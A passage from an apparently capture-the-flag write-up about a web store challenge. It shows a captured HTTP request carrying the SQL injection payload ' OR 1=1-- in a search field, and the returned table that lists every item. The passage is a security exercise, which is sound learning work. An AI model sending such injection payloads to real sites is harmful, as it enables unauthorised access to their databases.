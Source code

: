![assets/images/blog/week9/store-front-searched.png](assets/images/blog/week9/store-front-searched.png)
This screams SQL injection, so lets intercept the request in Burp Suite repeater and test it:

```http
POST /search HTTP/1.1
Host: store.web.actf.co
Content-Length: 24
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://store.web.actf.co
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://store.web.actf.co/search
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

item=Otamatone' OR 1=1--
```
Returns
```html
<table>
	<tr>
		<th>Name</th>
		<th>Details</th>
	</tr>                
	<tr>
		<td>Otamatone</td>
		<td>A extremely serious synthesizer. Comes in a variety of colors</td>
	</tr>
	<tr>
		<td>Echo dot</td>
		<td>A smart speaker that can play music, make calls, and answer questions.</td>
	</tr>                
	<tr>
		<td>Razer Cynosa Chroma</td>
```